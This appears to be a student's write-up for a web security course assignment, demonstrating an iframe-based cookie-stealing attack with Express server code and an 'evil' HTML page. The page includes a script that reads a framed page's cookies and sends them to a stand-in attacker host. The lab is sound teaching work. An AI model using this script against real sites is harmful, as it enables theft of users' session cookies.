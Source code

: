 * Host the victim page and set the cookie for the page. I have used `cookie-parser` npm package to set the cookies.
```diff
const port = 5000
const app = express()
app.use((cookieParser()))

app.get('/unsafe', (req, res) => {
	res.cookie('login','SecretAdmin')
    stream = createReadStream('unsafe_site.html')
    stream.pipe(res)  
})
```


* Iframe the victim site on the evil site. Add javascript to steal the cookies of an iframed page.
```diff
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Frame-attack</title>
</head>
<body>
	<h1>Assignment 4, CS 495/595 Web Security, Spring 2021</h1>
	<br>
    <h2>Let steal some cookies using iframes!</h2>

	<hr>
	     <p>Below iframe cookie is unsafe</p>
	<script>
		const iframe = document.createElement('iframe')
		iframe.src = 'http://localhost:5000/unsafe'
		document.body.appendChild(iframe)

		setTimeout(function() {
	    const p = document.createElement('p')
	    p.innerHTML = iframe.contentDocument.cookie
	    document.body.appendChild(p)

	    new Image().src = 'https://attacker.localhost:5000/steal?cookie=' + iframe.contentDocument.cookie
			}, 5000);

		document.write(iframe.contentDocument.cookie)
		console.log(iframe.contentDocument.cookie)
	</script>

</body>
</html>

```
* Run the attack by hosting the evil site.
```diff
const app = express()

app.get('/', (req, res) => {
    stream = createReadStream('evil_site.html')
    stream.pipe(res)  
})
```
* Output